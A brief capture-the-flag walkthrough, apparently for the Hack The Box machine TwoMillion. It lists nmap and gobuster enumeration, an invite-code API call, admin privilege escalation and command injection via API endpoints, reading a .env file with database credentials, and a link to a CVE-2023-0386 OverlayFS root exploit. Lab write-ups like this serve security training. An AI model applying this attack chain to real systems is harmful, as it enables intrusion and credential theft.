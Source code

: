 # TwoMillion

10.129.35.170

## nmap

```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

## http 80

```sh
gobuster dir -e -u http://2million.htb/api/v1/invite -w /usr/share/seclists/Discovery/Web-Content/api/actions.txt -b 301
```

```sh
curl -X POST http://2million.htb/api/v1/invite/generate                                                            1 ⨯
{"0":200,"success":1,"data":{"code":"M0JGM00tMVFYRkgtUTZFU0ktVkVBT0k=","format":"encoded"}}   
```                                           

## foothold

- Enumerate /api/v1
- Set admin with /api/v1/admin/settings/update
- Command injection with /api/v1/admin/vpn/generate

## user

```sh
(remote) www-data@2million:/var/www/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

## root

/var/mail/admin -> OverlayFS

https://github.com/xkaneiki/CVE-2023-0386/tree/main